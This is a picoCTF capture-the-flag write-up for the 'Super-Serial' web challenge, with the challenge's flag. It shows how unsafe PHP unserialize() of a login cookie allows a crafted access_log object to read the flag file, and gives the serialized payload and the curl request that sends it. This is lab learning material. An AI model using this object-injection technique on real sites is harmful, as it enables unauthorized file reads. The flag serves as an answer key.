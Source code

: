 # Super-Serial

## FLAG: picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_9d0864e2}

## Status: Complete

Category: Web-Exploit

Description: Try to recover the flag stored on this website <http://mercury.picoctf.net:42449/>

## STEPS

1. Navigate to website
2. Inspect source code
3. Look for robots.txt

    ```text
        User-agent: *
        Disallow: /admin.phps
    ```

4. Let's try admin.phps -> error 404 not found
5. Let's try index.phps -> we see source code
   1. wget <http://mercury.picoctf.net:42449/index.phps>
   2. In here we see the PHP source code
   3. Specifically we see `require_once('cookie.php')`
   4. We also see `header("Location: authentication.php");`
   5. wget <http://mercury.picoctf.net:42449/cookie.phps> - COOKIE.PHP
   6. wget <http://mercury.picoctf.net:42449/authentication.phps> - AUTHENTICATION.PHP

## NEED HELP CREDIT @Dvd848 - <https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Super_Serial.md>

1. On login we create `new permissions($un, $pass)` and pass it username and password
2. Then to authenticate it will check the new `permissions` object to see if `is_admin()` == `TRUE` or if `is_guest` == `TRUE`
   1. Note it will only return `is_admin() == TRUE` if there is a valid user in the database
3. If there is a user or if the person is a guest the server will cache a cookie

    ```php
        setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
    ```

4. Then next time it looks to pull directly from the cached cookie

    ```php
        if(isset($_COOKIE["login"])){
            try{
                $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
                $g = $perm->is_guest();
                $a = $perm->is_admin();
            }
            catch(Error $e){
                die("Deserialization error. ".$perm);
            }
        }
    ```

5. Now we want to use the `access_log` class to use its own `_toString()` function to output the contents of the flag file
   1. ie. `$this->log_file = "../flag"`
6. Let's create a php file to do this `get_flag.php`
   1. In here we copy the `access_log` class from `authentication.php` and paste into `get_flag.php`
   2. Then make a new `access_log` object that points to the flag file `accesslog("../flag")`
   3. Then serialize, base64-encode, and finally urlencode the newly made object -> `urlencode(base64_encode(serialize($get_flag)));`
   4. Finally echo the output
7. Run the php file

    ```bash
        php -e get_flag.php
    ```

8. Output: `TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`
9. Now let's use this in the cookie that we pass to the server, but we need ti use the `login=` header in the curl command

    ```bash
        curl http://mercury.picoctf.net:42449/authentication.php -H "Cookie: login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9"
    ```

10. The flag is then returned: `picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_9d0864e2}`
